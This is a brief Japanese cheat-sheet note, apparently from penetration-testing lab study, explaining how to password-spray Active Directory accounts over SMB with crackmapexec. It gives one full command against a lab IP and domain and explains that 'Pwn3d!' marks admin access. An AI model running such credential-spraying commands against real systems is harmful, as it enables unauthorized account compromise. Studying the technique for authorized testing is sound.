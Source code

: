 # crackmapexec
WindowsのAD環境に対して、列挙したユーザ名を使ったパスワードスプレーを実行できるツール。

## コマンド集

1. smbのIPを指定して、users.txt内のユーザ名に対し、-pで指定したパスワードのスプレーを行う。ドメインはcorp.comに設定。  
また、--continue-on-successで、有効な認証情報が最初に出た時に実行をストップせずスプレーを実行し続ける。  
ちなみに、出力に**Pwn3d!**が書いてあったら、そのユーザは管理者権限を持っていることになる。
```
crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```